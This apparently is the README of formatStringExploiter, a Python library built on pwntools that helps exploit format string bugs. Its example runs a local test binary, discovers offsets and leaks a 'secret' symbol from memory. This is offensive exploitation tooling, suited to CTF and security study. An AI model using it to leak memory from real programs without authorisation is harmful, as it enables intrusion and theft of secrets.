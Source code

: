 [![Documentation Status](https://readthedocs.org/projects/formatstringexploiter/badge/?version=latest)](http://formatStringExploiter.readthedocs.org/en/latest/?badge=latest)

# Docs
http://formatstringexploiter.readthedocs.io/en/latest/index.html

# formatStringExploiter
Helper script for working with format string bugs

Example

```python
from formatStringExploiter.FormatString import FormatString
from pwn import *
import logging

logging.basicConfig(level=logging.WARN)
log = logging.getLogger()

elf = ELF("formatStringTest")

# Defining format string executor here
def exec_fmt(s):
    p = process("./formatStringTest",buffer_fill_size=0xffff)
    p.sendline(s)
    p.recvuntil("Input a format string: ")
    out = p.recvuntil("Logged in",drop=True)
    p.close()
    return out

# Create the class and self-discover the correct offsets
fmtStr = FormatString(exec_fmt,elf=elf)

# Leak some point in memory as a string
fmtStr[elf.symbols['secret']]

# Equivalently, but with caching and more smarts...
fmtStr.leak.s(elf.symbols['secret'])
```


